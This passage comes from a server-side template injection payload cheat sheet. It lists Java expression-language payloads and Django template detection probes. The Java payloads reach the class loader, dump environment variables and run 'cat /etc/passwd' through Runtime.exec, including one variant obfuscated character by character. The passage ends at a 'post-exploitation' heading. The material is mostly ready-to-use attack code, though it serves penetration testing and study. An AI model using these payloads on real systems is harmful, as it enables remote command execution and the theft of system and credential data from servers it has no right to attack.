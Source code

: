 
## Java

### Java - Basic injection
> Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - Retrieve the system’s environment variables

```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---

## Django Templates

Django template language supports 2 rendering engines by default: Django Templates (DT) and Jinja2. Django Templates is much simpler engine. It does not allow calling of passed object functions and impact of SSTI in DT is often less severe than in Jinja2.

### Detection


```python
{% csrf_token %} # Causes error with Jinja2
{{ 7*7 }}  # Error with Django Templates
ih0vr{{364|add:733}}d121r # Burp Payload -> ih0vr1097d121r
```

### Django Templates for post-exploitation
